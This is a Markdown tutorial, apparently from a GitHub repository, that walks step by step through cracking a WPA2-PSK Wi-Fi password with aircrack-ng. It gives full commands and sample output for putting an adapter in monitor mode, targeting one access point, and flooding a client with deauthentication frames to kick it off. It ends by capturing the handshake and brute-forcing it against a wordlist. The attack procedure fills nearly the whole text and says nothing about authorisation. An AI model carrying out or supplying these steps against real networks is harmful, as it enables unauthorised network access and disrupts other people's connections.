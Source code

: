 # Cracking WPA2-PSK Passwords Using Aircrack-Ng (Brute Force) 

1. Put Wi-Fi Adapter in Monitor Mode with Airmon-Ng - It allows us to see all of the wireless traffic that passes by us in the air. 
```bash
    [root] airmon-ng start wlan0
    PHY	Interface	Driver		Chipset

    phy0	wlp9s0f0	rt2800pci	Ralink corp. RT3290 Wireless 802.11n 1T/1R PCIe

		(mac80211 monitor mode vif enabled for [phy0]wlp9s0f0 on [phy0]wlp9s0f0mon)
		(mac80211 station mode vif disabled for [phy0]wlp9s0f0)

```

2. Note that airmon-ng has renamed your wlan0 adapter to wlp9s0f0mon.
```bash
    [root] iwconfig
    wlp9s0f0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
          
enp8s0    no wireless extensions.

lo        no wireless extensions.

```

3. Capture Traffic with Airodump-Ng
    - It grabs all the traffic that your wireless adapter can see and displays critical information about it, including the BSSID (the MAC address of the AP), power, number of beacon frames, number of data frames, channel, speed, encryption (if any), and finally, the ESSID (what most of us refer to as the SSID). 
    - Note all of the visible APs are listed in the upper part of the screen and the clients are listed in the lower part of the screen
```bash
    [root] airodump-ng wlp9s0f0mon
    
```

4. Focus Airodump-Ng on One AP on One Channel
    - Our next step is to focus our efforts on one AP, on one channel, and capture critical data from it. We need the BSSID and channel to do this. Let's open another terminal and type:
```bash
    [root] airodump-ng --bssid 08:86:30:74:22:76 -c 6 --write WPAcrack wlp9s0f0mon
```
- `08:86:30:74:22:76` is the `BSSID` of the AP
- `-c 6` is the channel the AP is operating on
- WPAcrack is the file you want to write to
- wlp9s0f0mon is the monitoring wireless adapter*

5. Aireplay-Ng Deauth
    - In order to capture the encrypted password, we need to have the client authenticate against the AP. 
    - If they're already authenticated, we can de-authenticate them (kick them off) and their system will automatically re-authenticate, whereby we can grab their encrypted password in the process. Let's open another terminal and type:
```bash
    [root] aireplay-ng --deauth 100 -a 08:86:30:74:22:76 wlp9s0f0mon
```    
- `100` is the number of de-authenticate frames you want to send
- `08:86:30:74:22:76` is the BSSID of the AP
- `wlp9s0f0mon` is the monitoring wireless adapter

6. Capture the Handshake
    - In the previous step, we bounced the user off their own AP, and now when they re-authenticate, airodump-ng will attempt to grab their password in the new 4-way handshake. 
    - Let's go back to our airodump-ng terminal and check to see whether or not we've been successful.
    - "WPA handshake." on top right conor.

7. Let's Aircrack-Ng That Password!    
    -  that we have the encrypted password in our file WPAcrack, we can run that file against aircrack-ng using a password file of our choice. 
    - Remember that this type of attack is only as good as your password file. 
```bash
    [root] aircrack-ng WPAcrack-01.cap -w /pentest/passwords/wordlists/darkc0de
```    

## References
- [Nullbyte - Cracking WPA2-PSK Passwords Using Aircrack-Ng](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-psk-passwords-using-aircrack-ng-0148366/)